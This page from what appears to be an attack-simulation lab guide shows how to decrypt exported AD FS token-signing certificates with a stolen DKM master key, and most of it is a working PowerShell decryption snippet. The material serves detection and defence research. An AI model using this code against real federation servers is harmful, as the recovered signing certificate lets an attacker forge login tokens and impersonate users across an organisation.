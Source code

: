 # Decrypt Active Directory Federation Services (AD FS) Certificates

After [exporting AD FS certificates](exportADFSCertificatesEncryptedFormat.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the key value to derive a symmetric key and decrypt the AD FS certificates.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported AD FS certificates](exportADFSCertificatesEncryptedFormat.md) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMEncryptionKeyFromDC)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$key`.
    * [AD FS Certificate (Encrypted format)](exportADFSCertificatesEncryptedPfx.md)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$encPfx`.

## Decrypt Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$pfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_27_decrypt_certificate.png)

## Output

Use the variable `$pfx` (cipher text) for the next step where we [export the AD FS certificate as a PFX file](exportADFSCertificateAsPfxFile.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)